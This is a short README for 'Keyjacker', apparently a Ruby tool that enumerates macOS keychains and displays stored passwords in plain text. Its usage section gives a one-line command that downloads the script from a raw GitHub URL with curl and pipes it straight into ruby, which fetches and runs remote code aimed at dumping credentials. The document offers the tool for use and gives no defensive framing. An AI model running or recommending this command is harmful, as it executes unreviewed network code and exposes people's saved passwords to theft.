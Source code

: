 Keyjacker
=========
Keyjacker enumerates Mac keychains and displays plain text passwords.

Usage
---------
Run the following from any terminal with curl/ruby (default on most Macs). `curl https://raw.github.com/ipwnstuff/keyjacker/master/keyjacker.rb | ruby`
